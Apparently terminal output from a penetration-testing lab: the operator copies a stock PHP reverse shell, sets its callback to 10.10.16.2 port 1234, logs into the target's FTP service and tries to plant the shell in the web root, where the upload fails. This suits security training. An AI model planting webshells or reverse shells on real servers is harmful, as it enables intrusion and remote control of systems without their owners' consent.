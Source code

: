 ```
root@attackdefense:~# ls -al /usr/share/webshells/
asp/      aspx/     cfm/      jsp/      laudanum/ perl/     php/      seclists/ 
root@attackdefense:~# ls -al /usr/share/webshells/php
total 44
drwxr-xr-x 3 root root  4096 Jan 12  2022 .
drwxr-xr-x 8 root root  4096 Jan 12  2022 ..
drwxr-xr-x 2 root root  4096 Jan 12  2022 findsocket
-rw-r--r-- 1 root root  2800 Nov 21  2021 php-backdoor.php
-rwxr-xr-x 1 root root  5491 Nov 21  2021 php-reverse-shell.php
-rw-r--r-- 1 root root 13585 Nov 21  2021 qsd-php-backdoor.php
-rw-r--r-- 1 root root   328 Nov 21  2021 simple-backdoor.php
```

```
root@attackdefense:~# cp /usr/share/webshells/php/php-reverse-shell.php .
root@attackdefense:~# ls
Desktop  php-reverse-shell.php  thinclient_drives
root@attackdefense:~# mv php-reverse-shell.php shell.php
root@attackdefense:~# ls
Desktop  shell.php  thinclient_drives
root@attackdefense:~# vim shell.php
```

```
$ip = '10.10.16.2';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

```
root@attackdefense:~# ftp 10.0.22.175 21
Connected to 10.0.22.175.
220 (vsFTPd 2.3.4)
Name (10.0.22.175:root): service
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /home/service
```

```
ftp> cd /var/www
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxrwxrwt    2 0        0            4096 May 20  2012 dav
drwxr-xr-x    8 33       33           4096 May 20  2012 dvwa
-rw-r--r--    1 33       33            891 May 20  2012 index.php
drwxr-xr-x   10 33       33           4096 May 14  2012 mutillidae
drwxr-xr-x   11 33       33           4096 May 14  2012 phpMyAdmin
-rw-r--r--    1 33       33             19 Apr 16  2010 phpinfo.php
drwxr-xr-x    3 33       33           4096 May 14  2012 test
drwxrwxr-x   22 33       33          20480 Apr 19  2010 tikiwiki
drwxrwxr-x   22 33       33          20480 Apr 16  2010 tikiwiki-old
drwxr-xr-x    7 33       33           4096 Apr 16  2010 twiki
226 Directory send OK.
ftp> put shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
553 Could not create file.
ftp> pwd
Remote directory: /var/www
```
